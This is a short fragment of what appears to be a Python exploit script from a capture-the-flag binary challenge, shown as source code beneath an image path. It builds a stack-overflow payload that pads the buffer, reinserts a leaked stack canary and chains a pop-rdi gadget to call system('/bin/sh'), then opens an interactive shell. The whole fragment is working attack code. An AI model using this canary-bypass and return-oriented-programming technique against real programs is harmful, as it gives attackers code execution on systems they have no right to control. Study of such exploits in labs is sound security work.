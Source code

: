 ```
      payload = 'a'*0x18 + l64(cookies) + 'aaaaaaaa'*5 + l64(pop_rdi_ret) +   l64(binsh) + l64(system)
 
      io.writeline(payload)
 
      io.gdb_hint()
      interact(io)
 
 
exp(target)
```
